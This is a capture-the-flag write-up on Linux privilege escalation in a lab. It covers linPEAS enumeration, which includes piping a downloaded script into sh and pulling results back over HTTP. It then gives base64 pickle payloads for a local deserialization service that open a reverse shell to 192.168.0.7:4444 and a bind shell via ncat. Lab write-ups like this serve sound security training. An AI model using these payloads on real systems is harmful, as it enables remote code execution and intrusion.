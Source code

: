 # 9c550d_privilege_escalation_1

In the last f9038f challenge, we got the telnet access.

run [linpease](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) enumeration to get information about the system
```
# kali machine
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 8000

# target machine, 10.0.3.133
wget http://192.168.0.7:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh > linpeas_result.txt

# there is another way to execute linpeas.sh
python3 -m http.server 8000 # kali machine
curl http://192.168.0.7:8000/linpeas.sh | sh # target machine


# get the linpeas_result.txt file
# target machine
python3 -m http.server 8000

# kali machine
wget http://10.0.3.133:8000/linpeas_result.txt
```


After analyzing the linpeas_result.txt, we find that the web service running in `127.0.0.1:8000` is suspicious. When I tried to access it `curl 127.0.0.1:8000`, I got it is a `Python server that deserializes python pickles.`

## the first solution
So I tried to search it online, there is a write up about it: https://ctftime.org/writeup/36628.
```
python3 pe.py


# kali machine
nc -lvp 4444

find / -type f -name "flag{9c*" 2>/dev/null
/root/flag{9c550d7657a45d03047c432d0a71d95ac041aa04dc6d93}.jpg


# target machine 10.0.3.133
curl http://127.0.0.1:8000/deserialize?data=gASVPQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCJuY2F0IDE5Mi4xNjguMC43IDQ0NDQgLWUgL2Jpbi9iYXNolIWUUpQu
gASVPQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCJuY2F0IDE5Mi4xNjguMC43IDQ0NDQgLWUgL2Jpbi9iYXNolIWUUpQu

```

## the second solution
```

python3 pe_from_course.py


# target machine
curl http://127.0.0.1:8000/deserialize?data=gASVOgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjB9uY2F0IC1sdnZ2cCA0NDQ0IC1lIC9iaW4vYmFzaCAmlIWUUpQu

nc localhost 4444

```
